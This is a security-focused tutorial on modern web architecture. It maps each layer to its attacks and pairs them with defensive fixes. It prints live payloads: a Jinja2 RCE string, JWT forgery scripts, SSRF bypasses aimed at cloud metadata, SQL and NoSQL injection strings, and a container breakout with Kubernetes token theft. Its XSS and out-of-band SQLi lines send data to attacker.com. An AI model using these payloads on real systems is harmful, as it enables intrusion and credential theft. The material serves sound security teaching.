






# 🏗️ Modern Web Architecture — Security-First Deep Dive

> **Audience:** Beginner → Expert | **Focus:** How architecture decisions create attack surface

---

## 📚 Table of Contents

1. [Evolution Timeline](#evolution-timeline)
2. [3-Tier Architecture](#3-tier-architecture)
3. [MVC Pattern](#mvc-pattern)
4. [Rendering Strategies](#rendering-strategies)
5. [API Paradigms](#api-paradigms)
6. [Session State & Tokens](#session-state--tokens)
7. [Monolith vs Microservices vs Serverless](#monolith-vs-microservices-vs-serverless)
8. [Security Surface at Each Layer](#security-surface-at-each-layer)
9. [Modern Framework Security](#modern-framework-security)
10. [Docker & Kubernetes in Web Stacks](#docker--kubernetes-in-web-stacks)
11. [API Gateway Patterns](#api-gateway-patterns)

---

## 🧠 Evolution Timeline

Understanding how we got here is essential — vulnerabilities often exist because legacy patterns persist inside modern stacks.

```
1991 ── Static HTML ──────────────────── Files served directly; no dynamic content
1993 ── CGI Scripts ──────────────────── Perl/shell scripts; shell injection era begins
1995 ── PHP / Classic ASP ────────────── Inline server logic; SQLi, RFI, LFI born
1999 ── J2EE / .NET WebForms ─────────── Enterprise apps; session fixation, CSRF emerge
2004 ── AJAX / Web 2.0 ───────────────── Async JS; DOM XSS, JSON injection surface
2005 ── Ruby on Rails ────────────────── Convention-over-config; mass assignment born (CVE-2012-2660)
2010 ── Node.js / Single Page Apps ──── JS everywhere; prototype pollution, SSJS injection
2013 ── React / Angular / Vue ────────── Component model; CSP bypasses, client-side logic leaks
2015 ── Microservices ────────────────── Distributed trust; SSRF, JWT confusion, service mesh attacks
2017 ── Serverless / FaaS ────────────── No persistent server; cold start data leaks, IAM misconfigs
2020 ── Edge Computing / Jamstack ────── CDN logic; cache poisoning, path confusion at scale
2023 ── AI-integrated apps ──────────── LLM injection, prompt injection as attack vector
```

### 🔴 Why This Matters for Attackers

Each generation introduced new patterns — and new bugs. Many production apps today are **hybrids**: a 2010-era PHP backend behind a 2023 React SPA. The oldest component defines the security floor.

---

## 🏗️ 3-Tier Architecture

The foundational model for almost every web application.



### 🔴 Attack Surface Per Tier

| Tier | Component | Key Attacks |
|------|-----------|-------------|
| Presentation | Browser | XSS, clickjacking, UI redressing, CSRF |
| Presentation | CDN | Cache poisoning, cache deception, origin bypass |
| Logic | App Server | Auth bypass, SSRF, IDOR, business logic |
| Logic | Cache | Cache poisoning, cache timing attacks |
| Logic | Queue | Message injection, deserialization |
| Data | Database | SQLi, NoSQLi, privilege escalation |
| Data | File Storage | Path traversal, SSRF to metadata, file upload |
| Data | Search Engine | Elasticsearch injection, unauth access |

### 🛡️ Defense in Depth Principle

Each tier must independently validate inputs and enforce authorization. A compromised Tier 2 should not give free access to Tier 3.

```
[ Internet ] → [ WAF ] → [ LB ] → [ App ] → [ DB ]
                                      ↑
                              Input validation here
                              Auth enforcement here
                              Parameterized queries here
```

---

## ⚙️ MVC Pattern

Model-View-Controller is the dominant architectural pattern. Understanding it tells you WHERE bugs live.



### 🔍 MVC Security Mapping

```
Controller ──── Route handling, auth checks, input routing
     │          ▶ Bugs: Missing auth checks, parameter pollution
     │
Model ──────── Business logic, DB queries, data validation
     │          ▶ Bugs: Mass assignment, SQLi, business logic flaws
     │
View ────────── Template rendering, output encoding
                ▶ Bugs: SSTI, XSS from unencoded output, open redirect
```

### 💥 Mass Assignment (Model Layer Bug)

When a framework auto-binds HTTP parameters to model attributes:

```python
# Vulnerable Rails/Django/Laravel pattern
user = User.new(params[:user])  # Rails < 3.2

# Attacker sends:
POST /register
name=John&email=john@test.com&role=admin&is_admin=true
```

**Real CVE:** CVE-2012-2660 (Rails mass assignment) — GitHub was compromised via this.

```ruby
# Fix: Explicit permit
params.require(:user).permit(:name, :email)  # Strong parameters
```

### 💥 SSTI (View Layer Bug)

Server-Side Template Injection occurs when user input reaches the template engine:

```python
# Vulnerable Flask/Jinja2
@app.route('/greet')
def greet():
    name = request.args.get('name')
    return render_template_string(f"Hello {name}")  # NEVER do this

# Payload: ?name={{7*7}} → "Hello 49" (confirms injection)
# RCE payload:
# {{config.__class__.__init__.__globals__['os'].popen('id').read()}}
```

---

## 📊 Rendering Strategies

The rendering strategy fundamentally changes the attack surface.

### SSR — Server-Side Rendering

```
Client Request → Server renders full HTML → Client receives complete page
```

**Security implications:**
- Template injection attacks possible (SSTI)
- Server has full access to data — XSS via reflected input is server-side
- No JavaScript required to access content (good for SEO scrapers/scanners)
- Session stored server-side (default)

**Attack:** Reflected XSS in SSR app requires one round trip.

### CSR — Client-Side Rendering (SPA)

```
Client Request → Server returns JS bundle → JS fetches data → JS renders DOM
```

**Security implications:**
- Application logic visible in JS bundles
- API endpoints exposed in JavaScript
- DOM-based XSS more common
- CORS must be configured correctly
- JWTs typically used (localStorage or cookie)
- Source maps may expose original source code

**Attack:** Attacker can read all API endpoints from bundle, find undocumented ones.

### SSG — Static Site Generation

```
Build time → Pre-rendered HTML → Deployed to CDN → No server at request time
```

**Security implications:**
- Very small attack surface (no server-side code per request)
- Build pipeline becomes attack surface (supply chain attacks)
- Dynamic functionality requires external APIs (third-party risk)
- Secrets in build environment → can leak into static files

### ISR — Incremental Static Regeneration (Next.js)

```
First request → Backend renders → Cached → Subsequent requests → Cache served
Cache expires → Background re-render → New cache
```

**Security implications:**
- Cache poisoning risk if regeneration uses user-supplied data
- Stale data may contain old permissions
- On-demand ISR endpoints (`/api/revalidate`) must be protected

### 📊 Comparison Table

| Strategy | XSS Type | Auth Location | API Exposure | SSTI Risk |
|----------|----------|---------------|--------------|-----------|
| SSR | Reflected/Stored | Server session | Low | **High** |
| CSR | DOM-based | JWT/Cookie | **High** | Low |
| SSG | Stored (in CMS) | External API | Medium | None |
| ISR | Both | Hybrid | Medium | Medium |

---

## 🔌 API Paradigms

### REST vs GraphQL vs gRPC



### Security Comparison

| Feature | REST | GraphQL | gRPC |
|---------|------|---------|------|
| **Auth** | Header/Cookie | Header/Cookie | Metadata |
| **Input validation** | Per-endpoint | Schema-level | Protobuf schema |
| **Rate limiting** | Per-endpoint | Hard (nested queries) | Per-RPC |
| **Introspection** | Manual docs | **Auto (dangerous)** | Reflection API |
| **Attack surface** | Many endpoints | Single endpoint, complex | Binary (harder to test) |
| **Common vulns** | IDOR, auth bypass | **Introspection, DoS, injection** | Deserialization, reflection |

### 🔴 GraphQL Introspection Attack

```bash
# Enumerate entire schema
curl -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{__schema{types{name fields{name type{name}}}}}"}'

# Find mutations (write operations)
curl -X POST https://target.com/graphql \
  -d '{"query":"{__schema{mutationType{fields{name args{name type{name}}}}}}"}'
```

### 🔴 GraphQL Batching DoS

```json
[
  {"query": "{ user(id: 1) { friends { friends { friends { name } } } } }"},
  {"query": "{ user(id: 1) { friends { friends { friends { name } } } } }"},
  ... repeat 100x ...
]
```

### 🔴 GraphQL IDOR

```graphql
# Normal: fetch your own profile
query { me { email creditCards { number } } }

# Attack: fetch another user's data
query { user(id: 2) { email creditCards { number } } }
```

---

## 🔐 Session State & Tokens

### Server-Side Sessions

```
Client ──── sessionId=abc123 (cookie) ────► Server
                                             │
                                       Session Store
                                       { abc123: { user: 1, role: admin } }
```

**Security properties:**
- Session data lives server-side (Redis, DB, memory)
- Cookie only holds opaque ID
- Revocation is instant (delete session from store)
- Stateful — requires session store infrastructure

**Attacks:**
- Session fixation: attacker sets victim's session ID before login
- Session hijacking: steal cookie via XSS or network sniff
- Session prediction: weak session ID generator

### Client-Side Tokens (JWT)

```
Header.Payload.Signature
eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.HMAC(header+payload, secret)
```

```
Client ──── Authorization: Bearer <JWT> ────► Server
                                               │
                                         Verify signature
                                         Read claims from payload
                                         (no DB lookup needed)
```

**Security tradeoffs:**

| Property | Server Session | JWT |
|----------|---------------|-----|
| Revocation | Instant | **Impossible without blocklist** |
| Scalability | Requires shared store | Stateless, scales easily |
| Data exposure | Server-side only | **Payload is base64 (readable)** |
| Size | Small cookie | Larger header |
| Common attacks | Fixation, hijack | Algorithm confusion, none attack |

### 🔴 JWT "None" Algorithm Attack

```python
import base64, json

# Original JWT payload
header = base64.b64encode(json.dumps({"alg":"none","typ":"JWT"}).encode()).decode().rstrip("=")
payload = base64.b64encode(json.dumps({"user":"admin","role":"admin"}).encode()).decode().rstrip("=")

# Forged token (no signature)
forged = f"{header}.{payload}."
# Submit as Authorization: Bearer <forged>
```

### 🔴 JWT Algorithm Confusion (RS256 → HS256)

```python
# If server uses RS256, public key is often available
# Attacker signs token with public key using HS256
# Server verifies HS256 with "public key" as secret
import jwt
public_key = open('public.pem').read()
token = jwt.encode({"user": "admin"}, public_key, algorithm="HS256")
```

**CVE-2015-9235** — Critical JWT library vulnerability.

---

## 🏢 Monolith vs Microservices vs Serverless



### Attack Surface Comparison

| Property | Monolith | Microservices | Serverless |
|----------|----------|---------------|------------|
| **Network attack surface** | Small | **Large (inter-service)** | Medium |
| **Auth complexity** | Simple | **Complex (service-to-service)** | Per function |
| **SSRF impact** | Reaches internal APIs | **Pivots through services** | Cloud metadata |
| **Supply chain** | One artifact | Many images | Many packages |
| **Secrets management** | Centralized | **Distributed (harder)** | Env vars (risky) |
| **Audit logging** | Simple | Complex (distributed tracing) | Per-function logs |

### 🔴 Microservices: Broken Service Trust

```
External Request → API Gateway → Auth Service (validated) → Order Service
                                                              ↑
                  Internal Request ──────────────────────────┘
                  (no auth check on internal network!)
```

If an attacker compromises one service, they can make **unauthenticated internal calls** to other services.

### 🔴 Serverless: Cloud Metadata SSRF

```bash
# Lambda function with SSRF vulnerability
# Attacker forces request to:
http://169.254.169.254/latest/meta-data/iam/security-credentials/lambda-role

# Returns:
{
  "AccessKeyId": "ASIA...",
  "SecretAccessKey": "...",
  "Token": "...",
  "Expiration": "2024-01-01T00:00:00Z"
}
```

---

## 🔴 Security Surface at Each Layer

### Presentation Layer

#### XSS (Cross-Site Scripting)

```html
<!-- Reflected XSS -->
https://target.com/search?q=<script>document.location='https://attacker.com/steal?c='+document.cookie</script>

<!-- Stored XSS in comment -->


<!-- DOM XSS (no server round-trip) -->
<!-- URL: https://target.com/# -->
document.getElementById('output').innerHTML = location.hash.slice(1); // Vulnerable
```

#### Clickjacking

```html
<!-- Attacker page embeds victim site in invisible iframe -->
<style>
  iframe {
    position: absolute;
    top: 0; left: 0;
    opacity: 0.0;  /* Invisible! -->
    z-index: 100;
    width: 100%; height: 100%;
  }
  .decoy-button {
    position: absolute;
    top: 200px; left: 300px;
    z-index: 1;
  }
</style>
<div class="decoy-button">Click here for free prize!</div>
<iframe src="https://victim.com/transfer?to=attacker&amount=1000"></iframe>
```

**Bypass X-Frame-Options with CSP:**
```
Content-Security-Policy: frame-ancestors 'none';  # Modern approach
X-Frame-Options: DENY                              # Legacy
```

### Logic Layer

#### SSRF (Server-Side Request Forgery)

```bash
# Basic SSRF: read internal services
POST /api/fetch-url
{"url": "http://169.254.169.254/latest/meta-data/"}

# Bypass filters
{"url": "http://0x7f000001/admin"}          # Hex IP
{"url": "http://2130706433/admin"}          # Decimal IP
{"url": "http://127.1/admin"}               # Short form
{"url": "http://localhost.attacker.com/admin"} # DNS rebinding
{"url": "dict://internal-redis:6379/INFO"}  # Protocol switch
{"url": "gopher://internal-redis:6379/_*1%0d%0a$4%0d%0aPING%0d%0a"} # Gopher
```

#### Business Logic Flaws

```
Example: E-commerce negative price
POST /cart/add
{"product_id": 1, "quantity": -1, "price": 100}
→ Total becomes -$100, store owes attacker money

Example: Race condition on coupon
Thread 1: Apply coupon → check used=false → mark used=true → apply discount
Thread 2: Apply coupon → check used=false (before T1 marks) → apply discount
→ Coupon used twice
```

### Data Layer

#### SQL Injection

```sql
-- Basic auth bypass
' OR '1'='1
' OR 1=1--
admin'--

-- UNION-based data extraction
' UNION SELECT username,password,NULL FROM users--

-- Blind SQLi (boolean)
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a'--

-- Time-based blind SQLi
'; IF (1=1) WAITFOR DELAY '0:0:5'--   -- MSSQL
' OR SLEEP(5)--                         -- MySQL

-- Out-of-band SQLi
'; EXEC master..xp_dirtree '//attacker.com/share'--
```

#### NoSQL Injection (MongoDB)

```javascript
// Vulnerable Node.js
db.users.find({ username: req.body.username, password: req.body.password })

// Attack payload (JSON body):
{
  "username": "admin",
  "password": {"$gt": ""}   // $gt operator: password > "" (always true)
}

// Or using $regex:
{"username": {"$regex": ".*"}, "password": {"$regex": ".*"}}
```

---

## ⚙️ Modern Framework Security

### React

```javascript
// Dangerous: bypasses XSS protection
<div dangerouslySetInnerHTML={{__html: userInput}} />

// Safe: React auto-escapes
<div>{userInput}</div>

// Client-side routing: verify auth on each route
// Route guards are cosmetic — always enforce server-side
```

### Angular

```typescript
// Dangerous: bypasses DomSanitizer
this.content = this.sanitizer.bypassSecurityTrustHtml(userInput);

// Angular's template engine is strict by default
// But: [innerHTML]="userInput" is still dangerous
```

### Vue.js

```html
<!-- Dangerous -->
<div v-html="userInput"></div>

<!-- Safe -->
<div>{{ userInput }}</div>
```

### Node.js / Express

```javascript
// Common vulnerabilities:
// 1. Prototype pollution
const merge = (target, source) => {
  for (let key of Object.keys(source)) {
    target[key] = source[key]; // Pollutes __proto__ if key = "__proto__"
  }
}
// Payload: {"__proto__": {"admin": true}}

// 2. SSTI in template engines
app.get('/', (req, res) => {
  res.render('index', { name: req.query.name }); // Pug/EJS injection
});
// EJS: ?name=<%= process.env.SECRET %>
// Pug: ?name=#{process.env.SECRET}
```

### Django (Python)

```python
# Vulnerable: raw SQL
User.objects.raw(f"SELECT * FROM users WHERE name = '{name}'")

# Safe: ORM parameterization
User.objects.filter(name=name)

# SSTI in Django templates (limited)
from django.template import Template, Context
Template(user_input).render(Context())  # Dangerous if user controls template string

# Django's template engine is sandboxed, but:
#  can leak variables
# Custom template tags may be vulnerable
```

### Laravel (PHP)

```php
// Vulnerable: mass assignment
User::create($request->all()); // Never do this

// Safe:
User::create($request->only(['name', 'email', 'password']));

// SQL injection via raw queries
DB::select("SELECT * FROM users WHERE name = '$name'"); // Vulnerable
DB::select("SELECT * FROM users WHERE name = ?", [$name]); // Safe
```

### Rails (Ruby)

```ruby
# Strong parameters (mandatory post-Rails 4)
def user_params
  params.require(:user).permit(:name, :email)
end

# Dangerous: unfiltered params
User.create(params[:user]) # Pre-Rails 4 style

# Rails has built-in CSRF protection
# But API mode disables it — verify in ApplicationController
```

---

## 🐳 Docker & Kubernetes in Web Stacks



### 🔴 Container Security Issues

```bash
# Check if running as root inside container
id
# uid=0(root) gid=0(root)  ← Dangerous!

# Check for privileged mode
cat /proc/self/status | grep CapEff
# CapEff: 0000003fffffffff  ← All capabilities = privileged

# Container breakout (privileged container)
mkdir /tmp/host && mount /dev/sda1 /tmp/host
# Now you have host filesystem access

# Access Kubernetes service account token
cat /var/run/secrets/kubernetes.io/serviceaccount/token

# Use token to query K8s API
kubectl --token=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token) \
  get secrets -n kube-system
```

### 🔴 K8s SSRF to Metadata

```bash
# From vulnerable pod, reach cloud metadata
curl http://169.254.169.254/latest/meta-data/

# Reach K8s API server
curl -k https://kubernetes.default.svc/api/v1/namespaces \
  -H "Authorization: Bearer $(cat /var/run/secrets/kubernetes.io/serviceaccount/token)"
```

### 🛡️ Hardening Checklist

```yaml
# pod-security.yaml
apiVersion: v1
kind: Pod
spec:
  securityContext:
    runAsNonRoot: true
    runAsUser: 1000
    seccompProfile:
      type: RuntimeDefault
  containers:
  - name: app
    securityContext:
      allowPrivilegeEscalation: false
      readOnlyRootFilesystem: true
      capabilities:
        drop: ["ALL"]
```

---

## 🌐 API Gateway Patterns



### Security Functions of API Gateway

| Function | Purpose | Bypass Risk |
|----------|---------|-------------|
| Auth validation | Verify JWT/API key | Direct backend access |
| Rate limiting | Prevent abuse/DDoS | Header spoofing (X-Forwarded-For) |
| Input filtering | Block obvious attacks | Encoding bypass |
| TLS termination | Encrypt in transit | Internal HTTP after gateway |
| Logging | Audit trail | Logs bypass if hitting backend directly |

### 🔴 API Gateway Bypass

```bash
# If backend services are reachable directly (misconfigured security groups):
# Gateway URL:
curl https://api.target.com/v1/admin/users  # → 403 Forbidden (auth enforced)

# Direct backend URL (if discoverable via SSRF or DNS):
curl http://internal-api.target.internal:8080/v1/admin/users  # → 200 OK (no gateway auth)

# Common discovery: check X-Served-By, X-Backend-Server response headers
# Or: find internal hostnames via JavaScript source code
```

---

## 🛡️ Defense Summary

| Layer | Control | Implementation |
|-------|---------|----------------|
| Presentation | CSP | `Content-Security-Policy: default-src 'self'` |
| Presentation | X-Frame-Options | `frame-ancestors 'none'` |
| Presentation | Input encoding | Framework auto-escaping |
| Logic | Auth enforcement | Every endpoint, not just UI routes |
| Logic | Rate limiting | Redis-based sliding window |
| Logic | SSRF prevention | Allowlist outbound destinations |
| Data | Parameterized queries | ORM or prepared statements |
| Data | Least privilege | DB user only has needed permissions |
| All | Logging | Structured logs with request IDs |
| All | Secrets | Vault/KMS, never in code |

---

## 📚 References & Further Reading

- [OWASP Architecture Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Microservices_Security_Cheat_Sheet.html)
- [JWT Attack Playbook](https://github.com/ticarpi/jwt_tool/wiki)
- [PortSwigger Web Security Academy — Architecture](https://portswigger.net/web-security)
- CVE-2012-2660: Rails mass assignment
- CVE-2015-9235: JWT none algorithm
- CVE-2019-11248: Kubernetes unauthenticated /debug/pprof endpoint
